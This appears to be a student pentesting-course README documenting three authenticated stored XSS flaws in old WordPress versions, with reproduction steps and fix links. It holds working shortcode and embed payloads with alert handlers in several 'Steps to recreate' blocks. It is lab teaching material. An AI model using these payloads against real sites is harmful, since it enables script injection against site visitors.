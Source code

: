 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in WordPress before 4.2.3 allows remote authenticated users to inject arbitrary web script or HTML by leveraging the Author or Contributor role to place a crafted shortcode inside an HTML element, related to wp-includes/kses.php and wp-includes/shortcodes.php. 
    - Vulnerability types:XSS
    - Tested in version:4.2.2 and earlier
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XXS_A_Tag.gif)
  - [ ] Steps to recreate:
     First, you need to gain posting permission to the website (maybe through another exploit)
     Then the following code should be entered in a page or posting using the HTML edit mode:
      ```
      <a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">text</a>
      ```
      WordPress shortcode processing manipulates this into the following form:
      ```
      <a href="</a><a title=" onmouseover=alert('XSS!')  ">text</a>
      ```
       A real-world exploit could use a style attribute to create a transparent tag covering the whole browser window to force execution of      the onmouseover code. 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33359)
2. (Required) Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary:  Cross-site scripting (XSS) vulnerability in WordPress before 4.3.1 allows remote attackers to inject arbitrary web script or HTML by leveraging the mishandling of unclosed HTML elements during processing of shortcode tags. 
    - Vulnerability types: XSS
    - Tested in version: 4.3 and earlier
    - Fixed in version: 4.3.1
  - [ ] GIF Walkthrough: ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XXS_A_Tag_2.gif)
  - [ ] Steps to recreate: 
    This is quite similar to the first exploit. You need to gain post level permission and then post the following code 
    to the website:
    ```
    [caption width="1" caption='<a href="' ">]</a><a href=" onmouseover='alert("XSS!")' ">Text</a>
    ```
    Which will be processed to be:
    ```
    <figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" onmouseover='alert("XSS!")' ">Text</a>
    ```
    - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)
    -[Link 2](https://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/)
1. (Required) Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: In WordPress before 4.7.3 (wp-includes/embed.php), there is authenticated Cross-Site Scripting (XSS) in YouTube URL Embeds. 
    - Vulnerability types: XSS
    - Tested in version:4.7.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: ![](https://github.com/LizDao/Week7CodePath/blob/master/GIF_Walkthrough/XSS_Embedded_Linke.gif)
  - [ ] Steps to recreate: 
    Similarly to the 2 exploits above, you gain post level permission and post the embedded url to the website:
    ```
    [embed src='https://www.youtube.com/embed/12345\x3csvg onload=alert("XSS!")\x3e'][/embed]
    ```
    Wordpress will then process this code into:
    ```
    <p>https://youtube.com/watch?v=12345<svg onload=alert("XSS!")></p>
    ```
    - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
1. (Optional)  Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: In WordPress before 4.7.3 (wp-includes/embed.php), there is authenticated Cross-Site Scripting (XSS) in YouTube URL Embeds. 
    - Vulnerability types: XSS
    - Tested in version:4.7.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

The installation is extremely time consuming and confusing. The error messages are misleading and searching through forums, trying out tons of different solutions are a bit frustrating. 
But the hacking part is quite fun! 
## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
